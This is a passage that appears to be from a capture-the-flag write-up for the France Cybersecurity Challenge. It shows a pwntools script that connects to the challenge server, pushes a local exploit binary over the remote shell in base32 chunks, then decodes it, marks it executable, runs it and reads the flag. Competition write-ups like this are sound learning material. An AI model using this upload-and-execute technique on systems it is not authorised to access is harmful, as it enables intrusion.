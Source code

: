 

Here is the script I used to send the binary and execute the exploit remotely : 

```python
import re
import hashlib
from pwn import *

HOST = args.HOST or "challenges.france-cybersecurity-challenge.fr"
PORT = int(args.PORT or 2108)

# ...

if __name__ == "__main__":
    io = remote(HOST, PORT)

    # Proof-of-Work solver
   	# ...

    log.info("Waiting for the VM to start...")

    with open("exploit", "rb") as f:
        exploit = f.read()

    import base64
    exploit = base64.b32encode(exploit).decode()

    progress = 0
    N = 0x300

    io.sendlineafter(b'$', b'cd /tmp')
    log.info("Sending exploit (total: {})...".format(hex(len(exploit))))
    prog = log.progress("Sending exploit")

    for s in [exploit[i: i+N] for i in range(0, len(exploit), N)]:
        io.sendlineafter(b'$', 'echo -n "{}" >> exp.b32'.format(s).encode()) # don't forget -n
        progress += N
        if progress % N == 0:
            prog.status("Sent {} bytes [{} %]".format(hex(progress), round(float(progress)*100.0 / float(len(exploit)), 2)))

    io.sendlineafter(b'$', b'base32 -d exp.b32 > exp')
    io.sendlineafter(b'$', b'chmod +x ./exp')
    io.sendlineafter(b'$', b'./exp')
    
    io.recvuntil(b'readable')
    print(io.recvuntil(b'}'))

    io.close()
```



